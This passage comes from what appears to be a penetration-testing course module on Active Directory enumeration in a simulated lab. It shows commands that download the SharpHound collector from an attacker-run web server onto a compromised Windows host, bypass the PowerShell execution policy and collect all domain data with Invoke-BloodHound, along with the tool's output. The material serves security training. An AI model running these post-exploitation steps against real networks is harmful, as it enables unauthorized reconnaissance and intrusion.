 > Listing 46 - List containing the most important information about identified target machines

Reviewing the rest of the winPEAS results, we don't find any actionable information to attempt a potential privilege escalation attack. However, we should remind ourselves that we are in a simulated penetration test and not in a CTF lab environment. Therefore, it is not necessary to get administrative privileges on every machine.

While we skipped over most of the winPEAS results, we should examine the results thoroughly as we would in a real penetration test. After the local enumeration of the system, we should have obtained key pieces of information, which we listed in the *Situational Awareness* section of the *Windows Privilege Escalation* Module.

Since we haven't identified a privilege escalation vector via winPEAS and there is nothing else actionable on the system, such as a Password Manager, let's start enumerating the AD environment and its objects.

We learned several techniques in this course to perform this kind of enumeration. For this Module, we'll use *BloodHound* with the *SharpHound.ps1* collector, which we discussed in the *Active Directory Introduction and Enumeration* Module.

First, we'll copy the PowerShell collector to **/home/kali/beyond** in a new terminal tab to serve it via the Python3 web server on port 8000.

```
kali@kali:~/beyond$ cp /usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1 .
```

> Listing 47 - Copying SharpHound collector to the beyond directory

Since our Python3 web server is still running on port 8000, we can download the PowerShell script on the target machine and import it in a newly spawned PowerShell session with the ExecutionPolicy set to **Bypass**.

```
PS C:\Users\marcus> iwr -uri http://192.168.119.5:8000/SharpHound.ps1 -Outfile SharpHound.ps1
iwr -uri http://192.168.119.5:8000/SharpHound.ps1 -Outfile SharpHound.ps1

PS C:\Users\marcus> powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\marcus> . .\SharpHound.ps1
. .\SharpHound.ps1
```

> Listing 48 - Downloading and importing the PowerShell BloodHound collector

Now, we can execute **Invoke-BloodHound** by providing **All** to **\-CollectionMethod** to invoke all available collection methods.

```
PS C:\Users\marcus> Invoke-BloodHound -CollectionMethod All
Invoke-BloodHound -CollectionMethod All
2022-10-10T07:24:34.3593616-07:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
2022-10-10T07:24:34.5781410-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-10-10T07:24:34.5937984-07:00|INFORMATION|Initializing SharpHound at 7:24 AM on 10/10/2022
2022-10-10T07:24:35.0781142-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-10-10T07:24:35.3281888-07:00|INFORMATION|Beginning LDAP search for beyond.com
2022-10-10T07:24:35.3906114-07:00|INFORMATION|Producer has finished, closing LDAP channel
2022-10-10T07:24:35.3906114-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2022-10-10T07:25:06.1421842-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 92 MB RAM
2022-10-10T07:25:21.6307386-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
```